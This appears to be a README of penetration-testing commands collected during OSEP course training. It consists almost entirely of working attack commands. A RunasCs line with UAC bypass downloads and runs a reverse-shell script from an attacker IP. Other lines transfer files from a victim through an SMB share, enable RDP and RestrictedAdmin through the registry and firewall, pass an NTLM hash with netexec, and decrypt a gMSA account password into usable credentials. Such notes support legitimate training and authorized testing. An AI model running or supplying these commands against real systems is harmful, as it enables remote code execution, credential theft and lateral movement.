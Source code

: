 Just a bunch of tools built/gathered along the OSEP course.

# <ins>Useful Basic Commands</ins>:

### <ins>Run command as another user</ins>:
- `Invoke-RunasCs amit 'Password123!' 'powershell iex(iwr http://192.168.45.185/rev.txt -usebasicparsing)' -ForceProfile -CreateProcessFunction 2 -BypassUac`

### <ins>Set up SMB server (file transfer)</ins>:
- `smbserver.py share $(pwd) -smb2support -username amit -password password`
- On Victim: `net use \\192.168.45.223\share /U:amit password`
- Copy files: `copy <FILENAME> \\192.168.45.223\share`

### <ins>Enable RDP and RestrictedAdmin from both Local/Remote</ins>:

Using command prompt: 
- `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f && reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0 && netsh firewall set service remoteadmin enable && netsh firewall set service remotedesktop enable` 

Using netexec:
- `netexec smb db01 -u administrator -H faf3185b0a608ce2f8afb6f8d133f85b --local-auth -X 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f;reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0;netsh firewall set service remoteadmin enable;netsh firewall set service remotedesktop enable' --exec-method atexec`

### <ins>RDP to host using xfreerdp</ins>:
- `xfreerdp /v:172.16.231.221 /u:amit /p:'Password123!' +dynamic-resolution +clipboard`

# BloodHound Dacls Abuse

### GMSAPasswordReader

Decrypt the gmsa password

    $gmsa = Get-ADServiceAccount -Identity bir-adfs-gmsa -Properties msDS-ManagedPassword
    $mp = $gmsa.'msDS-ManagedPassword'
    $mp // Get the password in numbers
    ConvertFrom-ADManagedPasswordBlob $mp

If the clear-text password not appear, let's just use it.

    $password = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
    $cred = New-Object System.Management.Automation.PSCredential "GroupName" , $password
